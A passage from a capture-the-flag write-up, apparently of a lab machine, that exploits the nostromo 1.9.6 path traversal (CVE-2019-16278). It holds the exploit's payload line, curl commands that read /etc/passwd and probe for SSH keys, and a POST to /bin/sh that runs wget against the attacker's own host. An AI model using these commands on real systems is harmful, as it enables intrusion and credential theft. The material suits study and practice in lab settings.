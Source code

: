 ```bash
```
We find some `501 codes` which we can't access but enumerate some interesting files. As we don't know the domain name, we will ommit subdomain enumeration.

#### Manual enumeration
Browsing the webpage manually, we can enumerate the `/img/portfolio/` directory and the file `/empty.html`. There is a `contact form` which is not yet implemented.


### RCE via nostromo's path traversal
Remembering the CMS `nostromo 1.9.6`, it is outdated from version `1.9.9`, so we can find the exploits:
```bash
❯ searchsploit nostromo
------------------------------------------------- ---------------------------------
 Exploit Title                                   |  Path
------------------------------------------------- ---------------------------------
Nostromo - Directory Traversal Remote Command Ex | multiple/remote/47573.rb
nostromo 1.9.6 - Remote Code Execution           | multiple/remote/47837.py
nostromo nhttpd 1.9.3 - Directory Traversal Remo | linux/remote/35466.sh
------------------------------------------------- ---------------------------------
Shellcodes: No Results
```
We can see there is a RCE exploit for version 1.9.6, let's take a look at the payload used:
```python
payload = 'POST /.%0d./.%0d./.%0d./.%0d./bin/sh HTTP/1.0\r\nContent-Length: 1\r\n\r\necho\necho\n{} 2>&1'.format(cmd)
```
This script is exploiting the [CVE-2019-16278](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2019-16278), so we could craft a post request to achieve RCE. 

#### Path traversal testing
First, let's test the path traversal vulnerability needed:
```bash
❯ curl http://10.10.10.165/.%0D./.%0D./.%0D./.%0D./.%0D./etc/passwd -s > Results/passwd
❯ cat Results/passwd | grep "sh$"
root:x:0:0:root:/root:/bin/bash
david:x:1000:1000:david,,,:/home/david:/bin/bash
❯ curl http://10.10.10.165/.%0D./.%0D./.%0D./.%0D./.%0D./home/david/.ssh/id_rsa -s  | grep 404
<title>404 Not Found</title>
<h1>404 Not Found</h1>
```
So we confirmed the path traversal vulnerability using `%0d` to bypass the `../` filter, and also discovered the user `david` which does not have ssh keys.

## Exploiting path traversal
We can exploit this vulnerability to inject commands into `/bin/sh` and obtain RCE, to do so we can try the following injection:
```bash
❯ echo "echo hi" | sh
hi
```
But using a post request:
```bash
❯ curl -X POST "http://10.10.10.165/.%0d./.%0d./.%0d./.%0d./.%0d./bin/sh" -s -d "echo test"
<!DOCTYPE HTML PUBLIC "-//W3C//DTD HTML 4.01 Transitional//EN">
<html>
<head>
<title>500 Internal Server Error</title>
```
We cannot confirm the exploit this way, instead, we can try to monitorize http connections to our own server, to do so, in the victim machine:
```bash
❯ curl -X POST "http://10.10.10.165/.%0d./.%0d./.%0d./.%0d./.%0d./bin/sh" -s -d "wget http://10.10.14.15:4444/index.html"
```
